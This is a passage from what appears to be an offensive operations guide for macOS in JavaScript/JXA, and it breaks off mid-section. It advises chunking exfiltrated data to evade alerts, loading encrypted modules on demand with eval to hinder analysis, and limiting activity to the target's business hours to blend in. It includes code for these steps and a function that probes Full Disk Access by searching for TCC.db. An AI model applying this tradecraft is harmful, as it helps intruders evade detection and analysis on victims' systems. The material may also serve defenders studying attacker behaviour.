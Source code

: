 Scenario: When exfiltrating large amounts of data, break it into small chunks and send them at regular intervals to avoid sudden large data transfers that might trigger alerts.

### Tool Development

- Develop modular tools for on-target assembly.
- Implement anti-analysis techniques.
- Use code signing and certificate pinning.

Example:
```javascript
function loadModule(moduleName) {
    const moduleCode = fetchEncryptedModule(moduleName);
    const decryptedCode = decryptModule(moduleCode);
    return eval(decryptedCode);
}
```

Scenario: Instead of deploying a full toolkit, fetch and load encrypted modules on-demand to reduce the footprint and complicate analysis of your tools.

### Operational Practices

- Use separate infrastructure for each operation.
- Implement time-zone and working hour restrictions.
- Regularly rotate tools, techniques, and infrastructure.

Example:
```javascript
function isOperationalWindow() {
    const now = new Date();
    const hour = now.getHours();
    const day = now.getDay();
    return (day >= 1 && day <= 5) && (hour >= 9 && hour < 17);
}
```

Scenario: Restrict your tool's operation to business hours in the target's time zone to blend in with normal work patterns and avoid out-of-hours alerts.

## TCC Permission Checking in JXA

### Indirect TCC.db Detection

```javascript
function checkFullDiskAccess() {
    ObjC.import('CoreServices');
    const query = $.MDQueryCreate(null, "kMDItemDisplayName == 'TCC.db'", null, null);
    $.MDQueryExecute(query, 0);
    return $.MDQueryGetResultCount(query) === 2;
}
```

### Gradual Permission Checks
